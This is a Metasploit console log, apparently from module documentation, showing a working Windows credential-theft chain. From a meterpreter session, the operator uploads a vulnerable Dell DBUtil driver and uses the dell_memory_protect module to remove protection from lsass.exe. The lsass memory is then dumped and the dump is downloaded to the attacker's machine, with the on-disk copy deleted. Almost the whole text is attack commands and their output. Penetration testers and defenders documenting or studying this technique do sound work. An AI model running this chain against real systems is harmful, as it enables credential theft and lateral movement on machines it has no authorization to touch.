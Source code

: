 ```
============

 PID  PPID  Name       Arch  Session  User  Path
 ---  ----  ----       ----  -------  ----  ----
 732  568   lsass.exe  x64   0

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use post/windows/gather/memory_dump
msf6 post(windows/gather/memory_dump) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/memory_dump) > set PID 732
PID => 732
msf6 post(windows/gather/memory_dump) > set DUMP_PATH C:\\Windows\\Temp\\lsass_dump
DUMP_PATH => C:\Windows\Temp\lsass_dump
msf6 post(windows/gather/memory_dump) > run

[*] Running module against DESKTOP-JCD6JN8
[*] Dumping memory for lsass.exe
[-] Post aborted due to failure: payload-failed: Unable to open process: Access is denied.
[*] Post module execution completed
msf6 post(windows/gather/memory_dump) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > upload /home/albinolobster/drivers/2_5/ C:\\Windows\\Temp\\
[*] uploading  : /home/albinolobster/drivers/2_5/DBUtilDrv2.cat -> C:\Windows\Temp\\DBUtilDrv2.cat
[*] uploaded   : /home/albinolobster/drivers/2_5/DBUtilDrv2.cat -> C:\Windows\Temp\\DBUtilDrv2.cat
[*] uploading  : /home/albinolobster/drivers/2_5/dbutildrv2.inf -> C:\Windows\Temp\\dbutildrv2.inf
[*] uploaded   : /home/albinolobster/drivers/2_5/dbutildrv2.inf -> C:\Windows\Temp\\dbutildrv2.inf
[*] uploading  : /home/albinolobster/drivers/2_5/DBUtilDrv2.sys -> C:\Windows\Temp\\DBUtilDrv2.sys
[*] uploaded   : /home/albinolobster/drivers/2_5/DBUtilDrv2.sys -> C:\Windows\Temp\\DBUtilDrv2.sys
meterpreter > background
[*] Backgrounding session 1...
msf6 post(windows/gather/memory_dump) > use post/windows/manage/dell_memory_protect 
msf6 post(windows/manage/dell_memory_protect) > set SESSION 1
SESSION => 1
msf6 post(windows/manage/dell_memory_protect) > set DRIVER_PATH C:\\Windows\\Temp\\
DRIVER_PATH => C:\Windows\Temp\
msf6 post(windows/manage/dell_memory_protect) > set PID 732
PID => 732
msf6 post(windows/manage/dell_memory_protect) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_sys_process_set_term_size
[*] Launching netsh to host the DLL...
[+] Process 3508 launched.
[*] Reflectively injecting the DLL into 3508...
[+] Exploit finished
[*] Post module execution completed
msf6 post(windows/manage/dell_memory_protect) > use post/windows/gather/memory_dump 
msf6 post(windows/gather/memory_dump) > run

[*] Running module against DESKTOP-JCD6JN8
[*] Dumping memory for lsass.exe
[*] Downloading minidump (5.93 MiB)
[+] Memory dump stored at /home/albinolobster/.msf4/loot/20211208072121_default_172.16.144.6_windows.process._495675.bin
[*] Deleting minidump from disk
[*] Post module execution completed
msf6 post(windows/gather/memory_dump) > 
```
